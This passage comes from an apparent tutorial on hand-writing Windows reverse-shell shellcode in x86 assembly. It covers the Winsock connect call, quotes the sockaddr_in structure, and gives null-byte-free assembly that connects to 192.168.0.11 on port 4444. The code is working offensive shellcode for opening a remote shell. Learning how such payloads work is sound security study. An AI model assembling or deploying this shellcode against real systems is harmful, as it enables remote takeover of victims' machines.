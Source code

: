 However, this would cause problems related to the stack alignment.

## Call connect
From the [docs](https://docs.microsoft.com/en-us/windows/desktop/api/winsock2/nf-winsock2-connect):

> The connect function establishes a connection to a specified socket.

And the syntax:

~~~
int WSAAPI connect(
  SOCKET         s,
  const sockaddr *name,
  int            namelen
);
~~~

At this time we should have a socket handler stored in `edi` and the address of `connect` stored in `eax`. Next step is to set up the [sockaddr struct](https://docs.microsoft.com/en-us/windows/desktop/WinSock/sockaddr-2):

~~~
struct sockaddr {
        ushort  sa_family;
        char    sa_data[14];
};

struct sockaddr_in {
        short   sin_family;
        u_short sin_port;
        struct  in_addr sin_addr;
        char    sin_zero[8];
};
~~~

`sockaddr` is somewhat like a polymorphism where the actual type of structure to be used migh vary. In our case we want to use sockaddr_in, which is the specific structure for TCP connections. In short, we must push the IP in hex format, then the port and finally the family.

~~~
; Call connect
	;set up sockaddr_in
	mov ebx, 0x1c11b9d1	;the IP plus 0x11111111 so we avoid NULLs (IP=192.168.0.11)
	sub ebx, 0x11111111	;subtract from ebx to obtain the real IP
	push ebx		;push sin_addr
	push word 0x5c11	;0x115c = (port 4444)

	xor ebx, ebx
	mov bl, 2
	push bx	
	mov edx, esp

	push byte 0x10
	push edx
	push edi

	call eax
~~~
